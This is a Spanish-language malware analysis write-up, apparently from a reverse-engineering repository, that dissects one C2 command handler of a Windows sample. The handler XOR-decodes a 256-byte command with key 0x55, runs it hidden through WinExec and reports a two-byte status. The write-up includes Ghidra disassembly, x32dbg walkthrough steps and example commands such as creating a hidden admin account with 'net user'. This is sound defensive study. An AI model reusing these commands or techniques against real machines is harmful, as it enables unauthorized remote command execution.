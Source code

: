 # FUN_00402050 - Opcode 3

La función FUN_00402050 es el funcionamiento típico de un dropper / downloader:
- Decodifica un buffer de 256 bytes (0x100) usando XOR 0x55.
- Intenta ejecutar ese buffer como comando con WinExec().
- WinExec es una API antigua de Windows que ejecuta comandos o aplicaciones con nombre, sin redirección de consola.
- Reporta el resultado al servidor C2, dependiendo de si la ejecución fue exitosa o no.

## Análisis paso a paso:

### 1. Inicialización:
- `MOV ECX, dword ptr [ESP + param_2]`: Carga en el registro ECX la dirección de memoria de una cadena de caracteres (el segundo parámetro de la función). Esta cadena está actualmente cifrada.
- `XOR EAX, EAX`: Pone a cero el registro `EAX`, que se usará como contador del bucle.

### 2. Bucle de decodificación (LAB_00402056):
- El bucle se ejecuta 256 veces (desde `EAX=0` hasta `EAX=0xFF`, ya que `CMP EAX`, `0x100 y JL` significa "saltar si es menor").
- `MOV DL, byte ptr [EAX + ECX*0x1]`: Coge un byte de la cadena cifrada.
- `XOR DL, 0x55`: Esta es la clave. Realiza una operación XOR entre el byte del malware y la clave estática 0x55. Esta es una técnica de cifrado simétrico muy simple y común.
- `MOV byte ptr [EAX + ECX*0x1]`, DL: Sobrescribe el byte cifrado original con el nuevo byte decodificado.
- `INC EAX`: Incrementa el contador para pasar al siguiente byte.

### 3. Ejecución del comando:
- `PUSH 0x0 y PUSH ECX`: Prepara los argumentos para la función `WinExec`. `ECX` ahora apunta a la cadena recién decodificada y `0x0 (SW_HIDE)` le dice a Windows que ejecute el comando en una ventana oculta.
- `CALL dword ptr [->KERNEL32.DLL::WinExec]`: Llama a la función `WinExec` de la API de Windows, que ejecuta la cadena decodificada. Esta cadena podría ser cualquier cosa, como `"calc.exe", "cmd.exe /c net user admin pass /add"` o una ruta a otro malware.

### 4. Comprobación y acción secundaria:
- `CMP EAX, 0x1f`: Comprueba el valor de retorno de `WinExec`. Un valor mayor que `31 (0x1f) significa que la ejecución fue exitosa.
- Si la ejecución no fue exitosa (JLE salta si es menor o igual), el código llama a una función de la librería de sockets de Windows (`WS2_32.DLL`). Esto sugiere que si no puede ejecutar el comando local, podría intentar realizar una acción de red, como conectarse a un servidor de Comando y Control (C2) para reportar el error o descargar otra carga útil.


## Resumiendo
El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).



# Análisis dinámico de Opcode 3

## Listener en python para poder probar este opcode
[listener-opcode3.py](../analisis-dinamico/listener-opcode-3.py)

Probaremos un listener que envía en un buffer de 256 bytes (0x100), un comando ofuscado con XOR 0x55.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode3.py
```


## Inicio de función (0x00402050)
- Ver qué dirección llega en param_2 (→ contiene el comando XOReado).
- Nos permite hacer Follow in Dump → Address ECX para ver el buffer antes de descifrarlo.  
![Inicio Funcion](../analisis-dinamico/capturas/00402050-opcode3.png)

## Dentro del bucle XOR (0x00402056)
- Avanzamos en el bucle hasta que salga del bucle (0x00402065 → JNZ) → comparamos el buffer antes/después del XOR.  
![Fin del bucle XOR](../analisis-dinamico/capturas/00402056-opcode3.png)


## Antes de WinExec (0x0040206A)
- Aquí ECX apunta ya a la cadena descifrada (ej. "calc.exe" o el comando que el C2 ordena ejecutar).
- Hacemos Follow in Dump → ECX para ver el comando en claro.
![Fin del bucle XOR](../analisis-dinamico/capturas/0040206A-opcode3.png)

# Después de WinExec (0x00402070)
- EAX contiene el código de retorno de WinExec.
- Si EAX > 0x1F → ejecución exitosa, salta a enviar resultado con send.
- Si no, cae en el branch de error (0x00402077).

![Después de WinExec](../analisis-dinamico/capturas/00402070-opcode3.png)
```
00402070   cmp eax, 1Fh      ; compara retorno de WinExec con 0x1F (31 decimal)
00402073   push 0
00402075   push 2
00402077   jle 0040208A       ; salto si eax <= 0x1F
```
WinExec devuelve:
- `> 31 (0x1F)` → ejecución exitosa (devuelve un handle válido).
- `≤ 31 → error`, el valor es un código de error.

En la captura:
- EAX = 0x21 → 33 decimal.
- 33 es mayor que 31 (0x1F).
- Por tanto, la comparación en cmp eax, 1Fh → NO cumple la condición del salto jle.
- Resultado: no se ejecuta el salto a 0x0040208A → caemoss en la rama de éxito (0x00402079 → send con el buffer correcto).





## Llamada a send (0x00402083)
- Si hubo éxito, aquí podemos ver lo que reporta al C2.
- El argumento [esp+8] es el buffer con la info que manda.  
![Llamada a send](../analisis-dinamico/capturas/00402083-opcode3.png)


## Desde el Host C2
![opcode-3-2](../analisis-dinamico/capturas/opcode3-2.png)

_____________________________________________________________
## [>> Ir al Opcode 4 >>](FUN_004020A0-opcode4.md)

_____________________________________________________________
# FUN_00402050 decompilada
```
        00402043 90 90 90        align      align(13)
                 90 90 90 
                 90 90 90 
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402050(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402050(R)  
                             FUN_00402050                                    XREF[1]:     FUN_004012f0:00401740(c)  
        00402050 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402054 33 c0           XOR        EAX,EAX
                             LAB_00402056                                    XREF[1]:     00402065(j)  
        00402056 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        00402059 80 f2 55        XOR        DL,0x55
        0040205c 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        0040205f 40              INC        EAX
        00402060 3d 00 01        CMP        EAX,0x100
                 00 00
        00402065 7c ef           JL         LAB_00402056
        00402067 6a 00           PUSH       0x0
        00402069 51              PUSH       ECX
        0040206a ff 15 30        CALL       dword ptr [->KERNEL32.DLL::WinExec]              = 0000990a
                 90 40 00
        00402070 83 f8 1f        CMP        EAX,0x1f
        00402073 6a 00           PUSH       0x0
        00402075 6a 02           PUSH       0x2
        00402077 7e 11           JLE        LAB_0040208a
        00402079 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        0040207d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402082 50              PUSH       EAX
        00402083 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402089 c3              RET
```


